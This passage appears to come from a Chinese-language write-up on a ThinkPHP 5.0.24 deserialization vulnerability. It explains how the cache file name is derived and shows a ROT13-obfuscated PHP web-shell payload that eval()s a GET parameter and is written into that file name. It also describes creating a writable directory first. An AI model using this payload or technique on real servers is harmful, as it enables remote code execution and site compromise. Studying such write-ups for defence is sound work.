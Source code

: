 生成文件名规则：

    md5('tag_'.md5($this->tag))
    即:
    md5('tag_c4ca4238a0b923820dcc509a6f75849b')
    =>3b58a9545013e88c7186db11bb158c44
    =>
    <?cuc cucvasb();riny($_TRG[pzq]);?> + 3b58a9545013e88c7186db11bb158c44
    最终文件名：
    <?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php

在漏洞利用时需注意目录读写权限，可先控制options\['path'\] =
'./demo/'，利用框架创建一个755文件夹（前提是具有权限）

我们可以稍微修改下 **payload** 用于创建一个 **0755**
权限的目录（这里利用的是 **think\\cache\\driver\\File:getCacheKey()**
中的 **mkdir** 函数），然后再往这个目录写文件。

![](./resource/Thinkphp5.0.24反序列化漏洞/media/rId27.gif)
